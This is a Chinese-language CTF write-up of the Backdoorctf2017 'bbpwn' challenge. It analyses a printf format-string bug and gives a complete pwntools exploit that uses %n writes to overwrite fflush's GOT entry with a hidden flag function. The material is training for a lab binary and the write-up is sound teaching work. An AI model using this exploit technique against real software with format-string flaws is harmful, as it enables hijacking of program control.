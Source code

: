 ```yaml
---
title: nightmare 3.1.Backdoorctf2017 bbpwn-wp
date: 2023-08-24 09:31:48
tags:
- CTF
- pwn
- fmt_str
- stack 
- got  
- Backdoorctf2017
- nightmare
categories:
- pwn-wp
---
```


[相关资源](https://github.com/guyinatuxedo/nightmare/tree/master/modules/10-fmt_strings/backdoor17_bbpwn)  

## 文件分析

```sh
$ checksec 32_new
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    
$ ./32_new
Hello baby pwner, whats your name?
guyinatuxedo
Ok cool, soon we will know whether you pwned it or not. Till then Bye guyinatuxedo
```

## 代码分析

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp) {
  char s[200]; // [esp+18h] [ebp-200h] BYREF
  char format[300]; // [esp+E0h] [ebp-138h] BYREF
  unsigned int v5; // [esp+20Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  puts("Hello baby pwner, whats your name?");
  fflush(stdout);
  fgets(s, 200, edata);
  fflush(edata);
  sprintf(format, "Ok cool, soon we will know whether you pwned it or not. Till then Bye %s", s);
  fflush(stdout);
  printf(format);
  fflush(stdout);
  exit(1);
}

void flag(void) {
  system("cat flag.txt");
  return;
}
```

1. 11# 获取输入置于`format`中
2. 13# 直接输出format（存在格式化字符串漏洞）
3. 18# 有后门函数flag

## 攻击方法

因为栈上地址无法泄露，我们不可获取栈地址从而写返回地址

但是main最后还调用了库函数`fflush`，我们可以改写got表中它的真实地址为`flag`函数的地址，从而获取flag

### %n作用

把截至目前成功输出的字符数量以`int`型数据格式写入到对应地址

### %{num}$x作用

指定第`{num}`个参数进行输出/写入     那么`printf("hhh%2$n", a, b)`也就是将`3`写入第二个参数`b`**指向的内存（注意不是改写b本身）**

### 覆盖方式

从低字节向高字节覆盖，注意写入的值**只增不减** （因为输出只会多不会少），但我们通常只要保证低字节位为我们想要的值即可，溢出可以继续被覆盖

例：		假如我们想写入`0x0862`，但我们目前就已经输出了`0x70`个字符

1. 法一：首先凑满`0x162`写入最低地址，再凑够`0x208`写入地址加一，假设溢出对后面没有太大影响的话就已经写入成功

   ```assembly
   |62|01|
   |62|08|02|
   ```

2. 法二：直接凑够`0x862`个字符写入

   ```
   |62|08|
   ```

## exp

```python
from pwn import *
from ctypes import *
import sys
context(os='linux', arch='i386', log_level='debug')

mode = ''
if len(sys.argv) > 1:
    mode = sys.argv[1]

proc = process("./32_new")
belf = ELF("./32_new")

def s(x): proc.send(x)
def sl(x): return proc.sendline(x)
def sd(x): return proc.send(x)
def sla(x, y): return proc.sendlineafter(x, y)
def sa(x, y): return proc.sendafter(x, y)
def ru(x): return proc.recvuntil(x)
def rc(): return proc.recv()
def rl(): return proc.recvline()
def li(con): return log.info(con)
def ls(con): return log.success(con)
def pi(): return proc.interactive()
def pcls(): return proc.close()
def ga(): return u64(ru(b'\x7f')[-6:].ljust(8, b'\x00'))

gscript = '''
    b main
    b * 0x080487D7
	c
'''
if mode == '-d':
    gdb.attach(proc, gdbscript=gscript)

flag = 0x0804870B
main = 0x08048724
fflush_got = belf.got['fflush']
payload = p32(fflush_got)			
payload += p32(fflush_got + 1) + p32(fflush_got + 3)
payload += b'%185d%10$n'        # 0x10b-82=185		前面的输出就已经有82了，我们在最低字节处写入0x10b
payload += b'%892d%11$n'       # 0x487-0x10b=892	第二字节处写入0x0487
payload += b'%129d%12$n'        # 0x508-0x487=129	最后一个字节处写入0x0508

sla(b'name?', payload)
pi()
pause()
```




---
